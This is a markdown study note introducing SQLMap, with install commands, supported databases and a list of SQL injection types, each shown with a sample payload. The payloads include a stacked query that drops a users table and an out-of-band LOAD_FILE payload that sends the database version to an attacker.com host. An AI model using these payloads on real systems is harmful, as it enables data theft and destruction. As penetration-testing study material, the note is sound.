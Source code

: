 # SQLMap Overview
--------

- SQLMap is a common tool that is used for automating the process of detecting and exploiting SQL Injection vulnerabilities.

- Installation
```bash
sudo apt install sqlmap
```

- Confirm the installation
```bash
python sqlmap.py
```

## Supported Databases
SQLMap has the largest support for DBMSes of any other SQL exploitation tool. SQLMap fully supports the following DBMSes:

![image](https://github.com/user-attachments/assets/1dc59c09-bb5c-40a7-b65b-170cf47ca823)

## Supported SQL Injection Types
- SQLMap supports the following types of SQL Injection:
	- B: Boolean-based blind `AND 1=1`
	- E: Error-based `AND GTID_SUBSET(@@version,0)`
	- U: Union query-based `UNION ALL SELECT 1, @@version,3`
	- S: Stacked queries `;DROP TABLE users`
	- T: Time-based blind `AND 1=IF(2>1,SLEEP(5),0)`
	- Q: Inline queries `SELECT (SELECT @@version) from`
	- Out-of-band SQL Injection `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\README.txt'))`

# Table of Content
-----
- [Running SQLMap on an HTTP Request](Running%20SQLMap%20on%20an%20HTTP%20Request.md)
- [Handling SQLMap Errors](Handling%20SQLMap%20Errors.md)
- [Attack Tuning](Attack%20Tuning.md)
- [SQLMap Enumeration](SQLMap%20Enumeration.md)
- [Bypass Web Application Protections](Bypass%20Web%20Application%20Protection.md)
- [OS Exploitation](OS%20Exploitation.md)
